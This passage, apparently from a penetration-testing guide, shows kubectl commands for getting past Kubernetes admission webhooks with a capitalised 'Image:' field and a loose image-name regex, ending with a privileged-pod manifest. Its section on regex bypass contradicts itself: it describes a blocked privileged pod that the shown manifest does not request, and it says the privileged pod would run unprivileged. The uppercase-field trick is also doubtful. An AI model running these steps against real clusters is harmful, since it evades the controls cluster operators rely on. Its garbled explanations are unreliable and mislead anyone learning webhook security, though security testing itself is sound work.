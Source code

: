 Some webhooks may incorrectly handle case sensitivity. For example, if the policy only applies to `image: nginx:latest` then attempting to use `Image: nginx:latest` or `image: NGINX:latest` could bypass the policy.  This is a less common vulnerability, but worth attempting if other avenues are blocked.

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: case-bypass-pod
spec:
  containers:
  - name: case-bypass-container
    Image: nginx:latest
EOF
```

**Explanation:** Try to create a Pod and use an uppercase `Image:` field.
**Why:** A case-sensitive check could allow the uppercase `Image` to bypass any filters.
**Expected Output:** If successful, a Pod will be created using the image.

### 2.6 Exploitation: Regular Expression Bypass (Example)

This is more advanced and requires knowledge of the webhook's regex. Suppose the webhook validates image names with a flawed regex, allowing injection. Assume the regex is overly simplistic, like `^nginx:.*$`, meaning it only checks for "nginx:" at the beginning.  Try the following:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: regex-bypass-pod
spec:
  containers:
  - name: regex-bypass-container
    image: nginx:latest-malicious-code
EOF
```

In this case, no regular expression bypass has happened, and the validation has correctly prevented creation of the pod with `privileged=true`, however, if the regex was: `^nginx:` without the `.*$` then creating the following pod might succeed in creating the pod (but with `privileged=false`).

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: regex-bypass-pod
spec:
  containers:
  - name: regex-bypass-container
    image: nginx:latest
    securityContext:
      privileged: true
EOF
```
